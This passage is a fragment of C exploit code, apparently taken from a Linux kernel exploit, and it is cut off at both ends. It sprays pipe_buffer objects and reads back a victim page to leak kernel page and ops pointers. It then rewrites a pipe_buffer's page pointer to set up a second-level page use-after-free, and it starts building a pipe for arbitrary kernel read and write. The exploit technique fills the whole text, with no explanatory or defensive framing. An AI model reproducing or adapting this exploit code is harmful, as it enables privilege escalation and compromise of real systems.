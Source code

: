 ```c
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* read victim page to check whether we've successfully hit it */
    read(pipe_fd[victim_pid][0], buf, SND_PIPE_BUF_SZ - 8 - sizeof(int));
    read(pipe_fd[victim_pid][0], &info_pipe_buf, sizeof(info_pipe_buf));

    printf("\033[34m\033[1m[?] info_pipe_buf->page: \033[0m%p\n" 
           "\033[34m\033[1m[?] info_pipe_buf->ops: \033[0m%p\n", 
           info_pipe_buf.page, info_pipe_buf.ops);

    if ((size_t) info_pipe_buf.page < 0xffff000000000000
        || (size_t) info_pipe_buf.ops < 0xffffffff81000000) {
        err_exit("FAILED to re-hit victim page!");
    }

    puts("\033[32m\033[1m[+] Successfully to hit the UAF page!\033[0m");
    printf("\033[32m\033[1m[+] Got page leak:\033[0m %p\n", info_pipe_buf.page);
    puts("");

    /* construct a second-level page uaf */
    puts("[*] construct a second-level uaf pipe page...");
    info_pipe_buf.page = (struct page*) ((size_t) info_pipe_buf.page + 0x40);
    write(pipe_fd[victim_pid][1], &info_pipe_buf, sizeof(info_pipe_buf));

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;

        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr < PIPE_SPRAY_NUM && i != nr) {
            snd_orig_pid = nr;
            snd_vicitm_pid = i;
            printf("\033[32m\033[1m[+] Found second-level victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n", 
                   snd_vicitm_pid, snd_orig_pid);
            break;
        }
    }

    if (snd_vicitm_pid == -1) {
        err_exit("FAILED to corrupt second-level pipe_buffer!");
    }
}

/**
 * VI - SECONDARY exploit stage: build pipe for arbitrary read & write
*/

void building_self_writing_pipe(void)
{
    size_t buf[0x1000];
    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ/sizeof(struct pipe_buffer));
    struct pipe_buffer evil_pipe_buf;
    struct page *page_ptr;

    memset(buf, 0, sizeof(buf));

```